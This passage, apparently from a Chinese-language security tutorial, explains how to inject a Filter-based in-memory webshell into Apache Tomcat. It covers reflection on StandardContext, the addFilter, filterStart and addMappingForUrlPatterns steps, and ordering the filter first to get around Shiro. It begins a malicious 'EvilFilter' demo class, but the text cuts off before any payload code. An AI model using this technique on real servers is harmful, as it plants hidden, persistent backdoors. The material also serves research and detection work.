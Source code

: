 ​	跟进`org.apache.catalina.core.StandardContext#validateFilterMap`方法，该方法会对传入的`filterMap`进行判断，若`this.findFilterDef == null`时则会抛出异常，因此在构造时，需要注意构造符合要求的`filterDef`。

![](img/8.png)

​	上文中提到的`filterMap`、`filterDef`都与`filterConfig`相关，而`org.apache.catalina.core.StandardContext`中与`filterConfig`相关的操作只有`filterStart`和`filterStop`方法，因此在应用运行时，只能采用反射的方式来动态修改`filterConfigs`的值。

## Achievement

### Idea

​	动态注入`Filter`内存马的具体思路如下:

- 调用`ApplicationContext`的`addFilter`方法创建`filterDefs`对象，需要反射修改应用程序的运行状态，加完之后再改回来；
- 调用`StandardContext`的`filterStart`方法生成`filterConfigs`；
- 调用`ApplicationFilterRegistration`的`addMappingForUrlPatterns`生成`filterMaps`。

​	同时，为了兼容某些特殊情况比如`Shiro`，需要将加入的`filter`放在`filterMaps`的第一位，可以自行修改`HashMap`中的顺序，也可以在调用`StandardContext`的`addFilterMapBefore`时直接加在`filterMaps`的第一位。

### Demo

​	先简单实现一个恶意的`Filter`：

```java
package filter;

import javax.servlet.*;
import javax.servlet.annotation.*;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.InputStream;
import java.util.Scanner;

@WebFilter(filterName = "EvilFilter", urlPatterns = "/*")
public class EvilFilter implements Filter {
    public void init(FilterConfig config) throws ServletException {
```